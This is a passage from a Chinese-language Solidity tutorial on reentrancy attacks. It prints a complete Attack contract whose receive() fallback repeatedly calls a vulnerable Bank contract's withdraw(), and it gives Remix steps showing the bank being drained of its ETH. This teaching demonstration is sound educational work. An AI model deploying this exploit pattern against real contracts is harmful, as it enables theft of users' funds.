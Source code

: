 ```solidity
    receive() external payable {
        bank.withdraw();
    }
```

下面我们看下攻击合约，它的逻辑非常简单，就是通过`receive()`回退函数循环调用`Bank`合约的`withdraw()`函数。它有`1`个状态变量`bank`用于记录`Bank`合约地址。它包含`4`个函数：

- 构造函数: 初始化`Bank`合约地址。
- `receive()`: 回调函数，在接收`ETH`时被触发，并再次调用`Bank`合约的`withdraw()`函数，循环提款。
- `attack()`：攻击函数，先`Bank`合约的`deposit()`函数存款，然后调用`withdraw()`发起第一次提款，之后`Bank`合约的`withdraw()`函数和攻击合约的`receive()`函数会循环调用，将`Bank`合约的`ETH`提空。
- `getBalance()`：获取攻击合约里的`ETH`余额。

```solidity
contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }
    
    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## `Remix`演示

1. 部署`Bank`合约，调用`deposit()`函数，转入`20 ETH`。
2. 切换到攻击者钱包，部署`Attack`合约。
3. 调用`Atack`合约的`attack()`函数发动攻击，调用时需转账`1 ETH`。
4. 调用`Bank`合约的`getBalance()`函数，发现余额已被提空。
5. 调用`Attack`合约的`getBalance()`函数，可以看到余额变为`21 ETH`，重入攻击成功。

